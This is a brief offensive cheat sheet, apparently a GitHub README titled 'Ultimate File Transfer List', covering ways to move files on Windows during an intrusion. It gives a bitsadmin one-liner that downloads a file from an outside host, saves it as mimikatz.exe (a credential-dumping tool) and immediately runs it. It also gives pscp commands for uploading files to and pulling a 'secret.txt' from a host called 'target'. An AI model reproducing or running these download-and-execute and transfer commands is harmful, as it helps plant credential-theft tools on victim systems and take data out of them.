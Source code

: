 # Ultimate File Transfer List
Ultimate File Transfer List


## bitsadmin.exe

cmd.exe /c "bitsadmin.exe /transfer downld_job /download /priority high http://www.trustedsite.com C:\Temp\mimikatz.exe & start C:\Temp\mimikatz.exe"

References: 

https://www.greyhathacker.net/?tag=download-and-execute


## pscp.exe

### Upload
pscp C:\Users\Public\info.txt phineas@target:/tmp/info.txt

### Download
pscp phineas@target:/home/phineas/secret.txt C:\Users\Public\secret.txt
